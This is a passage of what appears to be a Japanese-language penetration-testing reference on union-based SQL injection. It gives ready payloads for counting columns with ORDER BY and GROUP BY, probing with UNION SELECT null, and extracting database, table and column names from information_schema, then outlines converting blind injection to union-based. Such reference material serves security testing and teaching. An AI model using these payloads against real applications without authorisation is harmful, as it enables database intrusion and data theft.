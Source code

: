 クエリのカラム数を特定するには、**ORDER BY**または**GROUP BY**句で使用される数を段階的に調整し、誤った応答が返されるまで続けます。SQL内の**GROUP BY**と**ORDER BY**の異なる機能にもかかわらず、両方はクエリのカラム数を確認するために同様に利用できます。
```sql
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
#-1' UNION SELECT 1,2,3--+    True
```

```sql
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
#-1' UNION SELECT 1,2,3--+    True
```
#### UNION SELECT

クエリが正しくなるまで、どんどんnull値を選択します:
```sql
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```
_`null`値を使用するべきです。なぜなら、クエリの両側のカラムの型が同じでなければならない場合があり、nullはすべてのケースで有効だからです。_

### データベース名、テーブル名、カラム名の抽出

次の例では、すべてのデータベースの名前、データベースのテーブル名、テーブルのカラム名を取得します：
```sql
#Database names
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

#Tables of a database
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

#Column names
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```
_このデータを発見する方法は、異なるデータベースごとに異なりますが、常に同じ方法論です。_

## 隠れたユニオンベースの悪用

クエリの出力が表示されているが、ユニオンベースのインジェクションが達成できない場合、それは**隠れたユニオンベースのインジェクション**の存在を示しています。このシナリオは、しばしばブラインドインジェクションの状況につながります。ブラインドインジェクションをユニオンベースのものに変換するには、バックエンドでの実行クエリを特定する必要があります。

これは、ブラインドインジェクション技術とターゲットのデータベース管理システム（DBMS）に特有のデフォルトテーブルを使用することで達成できます。これらのデフォルトテーブルを理解するためには、ターゲットDBMSのドキュメントを参照することをお勧めします。

クエリが抽出されたら、元のクエリを安全に閉じるようにペイロードを調整する必要があります。その後、ペイロードにユニオンクエリを追加し、新たにアクセス可能なユニオンベースのインジェクションを悪用できるようにします。
